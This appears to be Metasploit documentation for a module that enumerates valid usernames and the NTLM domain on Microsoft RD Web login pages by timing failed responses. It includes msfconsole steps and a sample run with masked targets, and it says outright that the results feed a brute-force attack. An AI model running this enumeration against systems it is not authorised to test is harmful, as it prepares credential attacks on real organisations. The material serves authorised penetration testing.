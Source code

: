 ## Vulnerable Application

The Microsoft RD Web login is vulnerable to the same type of authentication username enumeration vulnerability that is present for OWA (see owa scanner modules). By analyzing the time it takes for a failed response, the RDWeb interface can be used to quickly test the validity of a set of usernames. Additionally, this module can attempt to discover the target NTLM domain if you don't already know it.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/rdp_web_login`
- [ ] `set rhost TARGET_IP`
- [ ] `set username USER_OR_FILE`
- [ ] `set domain DOMAIN` (Only if you don't want to test the domain discovery feature)
- [ ] Check output for validity of your test username(s)/domain


## Options

### domain

The target domain to use for the username checks. If not provided, enum_domain needs to be set to true so it can be discovered.

### enum_domain

Enumerate the domain by using an NTLM challenge/response and parsing the AD Domain out.

### username

Either a specific username to verify or a file with one username per line to verify.

## Scenarios
If an RDWeb login page is discovered, you can use this module to gather valid usernames for a brute force attack.

Specific target output replaced with Ys so as not to disclose information
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS YY.YYY.YYY.YY
RHOSTS => YY.YYY.YYY.YY
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYYYYYYYYYY
[-] Username YYYYYYYYYYYY\wrong is invalid! No response received in 1250 milliseconds
[+] Username YYYYYYYYYYYY\YYYYY is valid! Response received in 628.877 milliseconds
[-] Username YYYYYYYYYYYY\k0pak4 is invalid! No response received in 1250 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against Microsoft IIS 10.0 and RDWeb 2019